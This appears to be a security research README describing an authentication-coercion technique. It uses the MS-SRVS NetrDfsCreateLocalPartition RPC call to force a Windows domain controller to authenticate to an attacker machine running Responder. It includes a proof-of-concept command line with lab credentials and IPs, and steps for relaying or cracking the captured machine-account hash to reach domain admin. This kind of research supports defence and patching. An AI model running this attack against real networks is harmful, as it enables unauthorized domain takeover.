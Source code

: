 # MS-SRVS - Remote call to NetrDfsCreateLocalPartition (opnum 44)

## Summary

+ **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

+ **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

+ **Protocol version**: 3.0

+ **SMB Named pipe**: `\PIPE\srvsvc`

+ **Function name**: [`NetrDfsCreateLocalPartition`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/c5ff8d79-a63b-468e-b342-899e02cbfce8)

+ **Function operation number**: `44`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsCreateLocalPartition`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/c5ff8d79-a63b-468e-b342-899e02cbfce8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsCreateLocalPartition('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsCreateLocalPartition(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in, string] WCHAR* ShareName,
   [in] GUID* EntryUid,
   [in, string] WCHAR* EntryPrefix,
   [in, string] WCHAR* ShortName,
   [in] LPNET_DFS_ENTRY_ID_CONTAINER RelationInfo,
   [in] int Force
 );
```

## References

+ Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

+ Documentation of function `NetrDfsCreateLocalPartition`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/c5ff8d79-a63b-468e-b342-899e02cbfce8